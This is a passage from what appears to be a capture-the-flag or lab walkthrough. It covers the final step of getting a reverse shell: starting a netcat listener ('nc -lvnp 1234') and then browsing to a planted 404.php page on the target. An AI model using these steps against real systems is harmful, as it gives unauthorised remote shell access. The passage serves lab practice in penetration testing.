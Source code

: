 Now let's reverse that shell ...

In your local machine type the following command:

````
nc -lvnp 1234

nc -lvnp <ANY PORT YOU PUT AT reverse_shell.php>
````

<img src="assets/prints/Screenshot_2024-06-11_17-18-26.png" alt="FSociety Logo" width="700" height="auto">

Now you type something like this in your browser:

````
http://<target_ip_address>/404.php

````

<img src="assets/prints/Screenshot_2024-06-11_17-18-27.png" alt="FSociety Logo" width="700" height="auto">

You'll press enter and like magic your reverse shell is complete and your terminal should look like this ⬇️

<img src="assets/prints/Screenshot_2024-06-11_17-18-28.png" alt="FSociety Logo" width="700" height="auto">
